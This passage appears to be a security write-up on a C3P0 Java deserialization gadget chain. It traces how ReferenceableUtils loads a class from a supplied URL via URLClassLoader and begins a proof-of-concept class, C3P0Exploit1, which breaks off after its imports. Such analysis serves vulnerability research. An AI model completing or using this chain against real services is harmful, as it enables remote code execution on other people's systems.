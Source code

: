 When serializing and deserializing this class, it is necessary to save the internal `ConnectionPoolDataSource` member variable. If the `connectionPoolDataSource` itself is an unserialized object, it is encapsulated with references to it using `ReferenceIndirector`, and returns an IndirectlySerialized instance object that can be serialized.

<div align=center><img src="./images/1.png"></div>

Follow up on `ReferenceIndirector#indirectForm`, where the `getReference` method of `ConnectionPoolDataSource` is called to return a `Reference` object and encapsulate it using the `ReferenceSerialized` object.

<div align=center><img src="./images/3.png"></div>

During deserialization, its `IndirectlySerialized#getObject` method is called to regenerate the ConnectionPoolDataSource` object.

<div align=center><img src="./images/4.png"></div>

`ReferenceSerialized#getObject` calls the `InitialContext#lookup` method to try to use `JNDI` to get the corresponding object. When the `contextName` and `env` are both empty, call `ReferenceableUtils#referenceToObject` to use the information in `Reference` to get it.

<div align=center><img src="./images/5.png"></div>

Follow up here `ReferenceableUtils#referenceToObject` method, you can see that it uses `URLClassLoader` to load the class from the `URL` and instantiate it, so you can trigger the vulnerability by inserting a malicious `URL`.

<div align=center><img src="./images/6.png"></div>

### POC
According to the above analysis, a ConnectionPoolDataSource object that is not serialized and implements Referenceable is constructed, and its `getReference` method returns a `Reference` object with a malicious class location. When deserializing `PoolBackedDataSourceBase`, the `ConnectionPoolDataSource` is processed, so that `URLClassLoader` loads the specified malicious class.

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import ja
va.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 2:31 pm
 */
public class C3P0Exploit1 {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
```